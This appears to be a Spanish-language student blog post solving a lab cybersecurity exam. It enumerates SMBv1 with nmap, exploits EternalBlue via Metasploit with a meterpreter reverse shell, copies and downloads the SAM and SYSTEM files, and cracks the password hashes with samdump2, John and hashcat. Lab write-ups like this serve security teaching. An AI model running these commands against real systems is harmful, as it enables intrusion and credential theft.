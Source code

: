 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [ciberseguridad, seguridad informatica]
tags: [smb, reconnaissance, weaponization, exploitation, ssh]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
•	Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
•	En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

•	EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
•	Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

1.	Inicia Metasploit:
msfconsole
2.	Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
3.	Configura los parámetros necesarios:

   
![alt text](/assets/images/2.png)
### Explicación de los parámetros:
•	RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
•	LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
•	PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
•	El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
•	Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
    download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
    download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
1.	Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt
2.	Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt
o	O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

Explicación:
•	Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
•	John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

